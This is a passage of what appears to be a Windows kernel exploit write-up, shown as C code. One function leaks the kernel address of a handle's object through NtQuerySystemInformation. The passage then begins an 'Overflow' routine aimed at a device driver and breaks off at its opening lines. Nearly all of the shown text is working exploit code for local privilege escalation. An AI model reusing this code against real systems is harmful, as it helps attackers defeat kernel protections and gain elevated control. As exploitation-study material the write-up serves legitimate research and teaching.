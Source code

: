     pNtQuerySysInfo = (NtQuerySystemInformation_t)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
    if (pNtQuerySysInfo == NULL)
    {
        printf("Failed to get NtQuerySystemInformation\n");
        goto Exit;
    }

    status = pNtQuerySysInfo(SystemExtendedHandleInformation, &HandleInfo, sizeof(HandleInfo), &ReturnedLength);
    if (status != STATUS_INFO_LENGTH_MISMATCH)
    {
        printf("NtQuerySystemInformation unexpected status: %x\n", status);
        goto Exit;
    }

    pHandleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)HeapAlloc(GetProcessHeap(), 0, ReturnedLength);
    if (pHandleInfo == NULL)
    {
        printf("HeapAlloc for " __FUNCTION__ " failed\n");
        goto Exit;
    }

    status = pNtQuerySysInfo(SystemExtendedHandleInformation, pHandleInfo, ReturnedLength, &ReturnedLength);
    if (NT_SUCCESS(status) == FALSE)
    {
        printf("NtQuerySystemInformation failed: %x\n", status);
        goto FreeExit;
    }

    Pid = GetCurrentProcessId();
    for (ULONG_PTR i = 0; i < pHandleInfo->NumberOfHandles; i++)
    {
        if ((pHandleInfo->Handles[i].UniqueProcessId == Pid))
        {
            if (pHandleInfo->Handles[i].HandleValue == (ULONG_PTR)hObject)
            {
                pObject = pHandleInfo->Handles[i].Object;
                break;
            }
        }
    }

FreeExit:
    HeapFree(GetProcessHeap(), 0, pHandleInfo);
Exit:
    return pObject;
}
{% endhighlight %}
Glueing all together:
{% highlight C %}
BOOL Overflow(
    HANDLE hDevice,
    PVOID *pObject,
    PHANDLE pHandle
)
{
    BOOL  r;
    DWORD ReturnedLength;
    LARGE_INTEGER InputBuffer;
    DWORD OutBuffer;
    DWORD err;

    *pObject = NULL;
    *pHandle = NULL;
